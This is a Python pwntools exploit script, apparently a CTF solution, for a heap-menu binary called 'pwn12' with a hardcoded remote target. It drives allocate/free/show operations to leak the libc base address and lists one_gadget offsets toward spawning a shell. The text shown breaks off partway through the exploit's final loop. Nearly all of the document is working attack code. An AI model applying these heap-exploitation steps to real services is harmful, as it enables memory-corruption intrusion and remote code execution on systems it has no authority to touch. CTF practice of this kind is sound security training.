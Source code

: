 ```py
#coding=utf-8
from pwn import *
import commands
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./pwn12')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
gadgets = [0x3ac5c,0x3ac5e,0x3ac62,0x3ac69,0x5fbc5,0x5fbc6]
if debug:
    p = process('./pwn12')
else:
    p = remote('111.33.164.4',50012)

def Add(size):
    p.recvuntil('Exit')
    p.sendline('1')
    p.recvuntil('Size?')
    p.sendline(str(size))

def Edit(index,content):
    p.recvuntil('Exit')
    p.sendline('2')
    p.recvuntil('Index?')
    p.sendline(str(index))
    p.recvuntil(':\n')
    p.send(content)

def Show(index):
    p.recvuntil('Exit')
    p.sendline('3')
    p.recvuntil('Index?')
    p.sendline(str(index))

def Delete(index):
    p.recvuntil('Exit')
    p.sendline('4')
    p.recvuntil('Index?')
    p.sendline(str(index))

def exp():
    #init
    p.recvuntil("what's your name?\n")
    p.send('a'*0x20)
    p.recvuntil("what's your info?\n")
    p.send('a'*0x200)
    Add(0x78)#0
    Add(0x78)#1
    Delete(0)
    Add(0x78)#0
    #leak libc
    Show(0)
    p.recvline()
    libc_offset = 0x3c4b20
    libc_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 88 - libc_offset
    libc.address = libc_base
    log.success('libc base => ' + hex(libc_base))
    #get shell
    Delete(1)
    Delete(0)
    #0-7
    for i in range(8):
        Add(0x78)
```